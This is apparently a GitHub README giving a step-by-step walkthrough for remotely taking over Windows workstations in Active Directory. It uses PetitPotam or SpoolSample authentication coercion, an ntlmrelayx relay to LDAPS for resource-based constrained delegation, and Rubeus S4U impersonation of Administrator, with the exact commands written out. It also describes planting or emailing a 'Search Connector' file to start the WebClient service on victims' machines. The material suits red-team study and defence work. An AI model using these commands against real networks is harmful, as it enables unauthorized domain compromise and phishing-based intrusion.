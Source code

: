 ## Overview

In the default configuration of Active Directory, it is possible to remotely take over Workstations (Windows 7/10/11) and possibly servers (if Desktop Experience is installed) when their WebClient service is running. This is accomplished in short by;

- Triggering machine authentication over HTTP via either MS-RPRN or MS-EFSRPC (as [demonstrated by @tifkin_](https://twitter.com/tifkin_/status/1418855927575302144?s=20)). This requires a set of credentials for the RPC call. 
- Relaying that machine authentication to LDAPS for configuring RBCD
- RBCD takeover

The caveat to this is that the WebClient service does not automatically start at boot. However, if the WebClient service has been triggered to start on a workstation (for example, via some SharePoint interactions), you can remotely take over that system. In addition, there are several ways to coerce the WebClient service to start remotely which I cover in a section below.

## RPC to RCE steps

1. To begin setup a relay to the LDAPS server for configuring RBCD. 

`ntlmrelayx.py -t ldaps://dc.windomain.local --delegate-access`
![NTLMRelayx.py](https://user-images.githubusercontent.com/46607768/126908959-4772e8ff-8ff5-4676-b7f9-39826cf5a1b3.png)

2. Attempt to trigger machine authentication over HTTP to your relay. This can be done via the publicly known RPC calls (and undoubtly various other unpublished ones)

`PetitPotam.exe logger@80/a.txt 192.168.38.104`
![PetitPotam](https://user-images.githubusercontent.com/46607768/126908997-a4c9ef39-dcf8-41a0-9278-292591804380.png)

OR

`SpoolSample.exe 192.168.38.104 logger@80/asdf`
![SpoolSample](https://user-images.githubusercontent.com/46607768/126909117-b09f50f2-f88a-48c6-9361-9237d4ecc104.png)

  Note for this critical step (remote machine authentication) to work;
  - The WebClient service needs to be running on the target (192.168.38.104 in this example). It may already be started on some workstations (worth trying to see if you get lucky) but if not see the next section. **Update** [Lee Christensen has pointed out](https://twitter.com/tifkin_/status/1419806476353298442?s=20) that you can remotely enumerate this via the PowerShell command `Get-NTFile -Win32Path '\\target-ip\pipe\DAV RPC SERVICE'` which returns the named pipe if accessible. 
  - Your attacking host (`logger` in the case of my example) needs to be considered 'intranet' zoned by the target. One way to accomplish this is by using the netbios name of your attacking host (no periods). 
  - The URI syntax used above to coerce HTTP authentication (swapping in your attacking hostname).
  - LDAP signing/channel-binding must be disabled (this is the default).

3. If machine authentication is coerced, you should see a successful relay to LDAPS (assuming channel binding/signing is not enabled on the DC). This will result in the creation of a machine account for which RBCD is configured. If creating machine accounts is not possible, you can alternatively configure RBCD for a machine you have already compromised. 

![Successful Relay](https://user-images.githubusercontent.com/46607768/126909127-fb0711f0-f1eb-4e7c-9d14-0b92526aa87c.png)

4. From here, it's simply a matter of following the standard RBCD takeover methodology. I switched over to Rubeus, since my Linux host wasn't yet configured for Kerberos authentication but of course you can do this all from one host.

Calculate Password Hash:
`Rubeus.exe hash /password:NkQuBzsPk_AqKC6 /user:ZESLUQVX$ /domain:windomain.local`

Perform impersonation via S4U2Proxy:
`Rubeus.exe s4u /user:ZESLUQVX$ /rc4:D57DFD6E3BCDB1C2BF4D02CEE32F58C3 /impersonateuser:Administrator /msdsspn:cifs/WIN10.WINDOMAIN.LOCAL /ptt`

![S4U2proxy success](https://user-images.githubusercontent.com/46607768/126909145-793556e7-2960-4120-ac10-7133d4dfc9f2.png)

5. Enjoy your new workstation.

![Silver Ticket Use](https://user-images.githubusercontent.com/46607768/126909129-76c5858b-402e-4a1f-9cfe-402c59763e9a.png)

## Coercing the WebClient Service to Start

In my brief research/testing I found that a 'Search Connector' file could be used to start the WebClient service (as discussed/discovered by [@DTMSecurity](https://dtm.uk/exploring-search-connectors-and-library-files-on-windows/) and [@domchell](https://www.mdsec.co.uk/2021/02/farming-for-red-teams-harvesting-netntlm/)). If you place said file locally, it will start the service locally (allowing for LPE) or you can place said file on an SMB share you have write access to. When a domain user browses that SMB share and views the 'searchConnector-ms' file you planted, the WebClient service will start on their workstation, and you can proceed with step 2 above. Of course you can also attempt NTLM relay of the user authentication, but our discussion/goal here is simply to have the WebClient started to enable machine takeover.

**Before:**
![WebClient Stopped](https://user-images.githubusercontent.com/46607768/126909134-d745f149-1fde-4b5b-81f3-f3e206e7bf0f.png)

**Creating the SearchConnector-ms File:**
![SearchConnector](https://user-images.githubusercontent.com/46607768/126909138-0c91612f-6743-491b-9a88-cb88006b2b09.png)

**After:**

![WebClient Running](https://user-images.githubusercontent.com/46607768/126909124-1d6dfcaa-ffb1-4557-ba49-3d91acee990b.png)

You can set the HTTP target as your attacker host so you know which workstation has had the WebClient started.

As an alternative approach (albeit less stealthy), you can email your target a 'Search Connector' file. If a user attempts to open the file, the WebClient service will start on their workstation. 